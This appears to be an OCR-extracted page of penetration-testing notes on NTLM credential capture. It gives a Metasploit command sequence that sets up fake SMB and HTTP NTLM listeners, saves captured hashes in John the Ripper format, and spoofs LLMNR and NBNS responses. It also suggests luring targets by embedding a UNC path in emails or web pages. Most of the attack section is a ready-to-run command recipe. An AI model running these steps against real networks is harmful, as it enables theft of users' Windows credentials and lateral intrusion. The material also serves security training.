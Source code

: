 #### The only randomness in the protocol is the server challenge \(step 2 of the protocol\).

####  • Again, we impersonate the server so we control that.

#### There are two methods we can use :

#### • Force the client \(target\) to start a connection to us \(fake server\)

####  • Use Man-in-the-Middle techniques in order to sniff the client response



## SMB Relay with Metasploit

The first item we need to address in this exploitation process, is to create a listening SMB service that will both accept incoming connections, and send back a fixed challenge. As you can imagine, we use a fixed challenge to help us in decrypting the response. Although there are many tools that allow us to do this, we will use the following Metasploit module:

```text
auxiliary/server/capture/smb
```

```text
use auxiliary/server/capture/http_ntlm
set JOHNPWFILE httpntlm.txt
run
use auxiliary/server/capture/smb
set JOHNPWFILE smbhashes.txt
run
use auxiliary/spoof/llmnr/llmnr_response
set spoofip 0.0.0.0
set interface vboxnet0
run
use auxiliary/spoof/nbns/nbns_response
set interface vboxnet0
run
```

set the **JOHNPWFILE option** in order to tell Metasploit to automatically save the hashes to a file. Notice that these hashes will be automatically saved and formatted to work with john the ripper.

```text
set JOHNPWFILE hashpwd
```

Once the Metasploit listener is set up, we can move on the next step:

One of the easiest ways to force the initiation of the NTLM protocol is through SMB authentication. For example, we can embed a Universal Naming Convention \(UNC\) path \( \SERVER\_IP\SHARE \) into an email message or a web page.
